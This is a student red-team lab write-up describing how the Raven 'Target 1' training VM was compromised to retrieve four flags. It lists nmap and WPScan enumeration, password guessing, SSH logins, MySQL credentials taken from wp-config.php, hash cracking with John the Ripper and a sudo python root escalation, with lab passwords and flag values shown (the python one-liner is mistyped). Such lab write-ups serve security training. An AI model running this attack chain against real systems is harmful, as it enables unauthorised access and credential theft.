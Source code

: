 ##Red Team: Summary of Operations

Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

- $ nmap -sV -A 192.168.1.100

!C:\Users\Nanneys\Final-Project\Images\NMAP_scan.png

This scan identifies the services below as potential points of entry for Target 1:

- Port 22/TCP Open SSH
- Port 80/TCP Open HTTP
- Port 111/TCP Open rpcbind
- Port 139/TCP Open netbios-ssn
- Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on the Target 1 VM:

- User enumeration 
- Weak user passwords
- No use of salt on hashed passwords
- Misconfigured user privileges

Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

- Flag1.txt: b9bbcb33e11b80be759c4e8448622482d

- Exploit Used
  - WPScan was used to enumerate users on the WordPress site
  - $ wpscan --url http://192.168.1.110/Wordpress --enumerate u

!C:\Users\Nanneys\Final-Project\Images\Enumeration.png

  - After enumerating users, guessed user Michael’s password: michael
  - Connected via SSH using Michael’s credentials.
    - $ ssh michael@192.168.1.110 
  - Found first flag in /var/www/html/service.html directory and file by using following command:
    - $ grep -ir flag1 /var/www 

!C:\Users\Nanneys\Final-Project\Images\Flag1.png

- Flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c

- Exploit Used
  - Used similar commands to search directories and files in Michael’s machine.
  - Search through Michael’s directories uncovered the second flag:

!C:\Users\Nanneys\Final-Project\Images\Flag2.png

- Flag3.txt: afc01ab56b50591e7dccf93122770cd2

- Exploit Used
  - Searching for file name, located the wp-config.php containing Michael’s mysql login credentials, including password: R@v3nSecurity

!C:\Users\Nanneys\Final-Project\Images\SQL_creds.png

  - Logged into mysql with following command
    - $ mysql -u root - p wordpress
  - Ran the following sql commands to enumerate the tables:
    - show databases;
    - use wordpress;
    - show tables;

!C:\Users\Nanneys\Final-Project\Images\mysql_table.png

    - select * from wp_posts;

!C:\Users\Nanneys\Final-Project\Images\Flag3.png

    - select * from wp_users;

!C:\Users\Nanneys\Final-Project\Images\Hashed_passwords.png

  - On the Kali machine, the hashed passwords (displayed above) were cracked using John the Ripper:
    - $ john wp_hashes.txt

!C:\Users\Nanneys\Final-Project\Images\Steve_password.png

  - Steven’s password was obtained: pink84

- Flag4.txt: 715dea6c055b9fe3337544932f2941ce

- Exploit Used
  - Connected via SSH using Steven’s credentials
    - $ ssh steven@192.168.1.110


!C:\Users\Nanneys\Final-Project\Images\Steve_account.png

  - Attempted to switch to root by enumerating sudo privileges:
    - $ sudo -l

!C:\Users\Nanneys\Final-Project\Images\Steve_sudo.png

  - Escalated to root by using the following python command:
    - $ sudo python -c ‘import pty: pty.spawn(*/bin/sh”)’

! C:\Users\Nanneys\Final-Project\Images\Python_command.png

  - With access to root, found the 4th flag:

!C:\Users\Nanneys\Final-Project\Images\Flag4.png
